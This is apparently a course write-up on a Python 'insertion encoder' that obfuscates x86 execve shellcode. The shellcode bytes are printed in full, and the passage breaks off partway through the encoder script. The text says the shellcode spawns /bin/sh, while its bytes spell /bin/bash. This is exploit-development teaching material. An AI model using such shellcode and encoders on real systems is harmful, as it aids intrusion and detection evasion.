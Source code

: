 ![Encoder](/assets/images/encoder.jpg)

#### Insertion Encoder in Python
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, the shellcode will spawn a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell:

```bash
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

The following Python code will be used as a shellcode wrapper to generate the obfuscated shellcode from the original shellcode: 

```python
#!/usr/bin/python

# Filename: encoder.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate obfuscated shellcode from the original shellcode
# Usage: python encoder.py 

#execve-stack shellcode to spawn /bin/sh shell
shellcode = "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f"
shellcode += "\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

print 'Shellcode length: %d bytes\n'  % len(shellcode)
s2 = ''

for x in bytearray(shellcode):
    s2 += '0x%02x,' % x

s2 = s2.rstrip(',')
print 'Original shellcode:'
print s2
print '\nObfuscated shellcode:'

s2n = s2.split(',')
```